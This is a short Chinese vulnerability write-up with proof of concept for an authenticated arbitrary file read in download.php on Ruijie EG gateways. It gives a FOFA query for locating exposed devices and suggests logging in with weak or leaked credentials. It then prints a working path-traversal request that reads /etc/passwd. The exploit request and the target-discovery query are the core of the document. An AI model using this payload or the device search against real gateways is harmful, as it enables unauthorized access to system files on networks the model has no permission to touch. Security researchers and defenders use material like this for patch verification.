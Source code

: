 # 锐捷EG易网关download.php后台任意文件读取漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**

<font style="color:rgb(38, 38, 38);">锐捷EG易网关download.php后台任意文件读取漏洞 </font>

**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**

锐捷 EG易网关  
**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**  
<font style="color:rgb(38, 38, 38);">●登录页面</font>

<font style="color:rgb(38, 38, 38);">fofa:</font>`app="Ruijie-EG易网关" `

![1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553.png](./img/cg41HdOksJkEBK3T/1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553-093813.webp)

![1711943727100-3a29a6a6-7b50-4246-af35-4ebf47636d48.png](./img/cg41HdOksJkEBK3T/1711943727100-3a29a6a6-7b50-4246-af35-4ebf47636d48-161741.png)

  
**<font style="color:rgb(38, 38, 38);">四、漏洞复现</font>**  
1通过弱口令或账号密码泄露漏洞登录后台获取cookie  


![1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c.png](./img/cg41HdOksJkEBK3T/1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c-847404.webp)

2通过上一步获取的cookie执行

```plain
/download.php?a=read_txt&file=../../../../etc/passwd
```

![1711946009120-be7d5122-2ffc-4924-bd6c-4f4a8758dc0c.png](./img/cg41HdOksJkEBK3T/1711946009120-be7d5122-2ffc-4924-bd6c-4f4a8758dc0c-947085.png)



> 更新: 2024-06-24 11:42:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ecv5820erlgsur8o>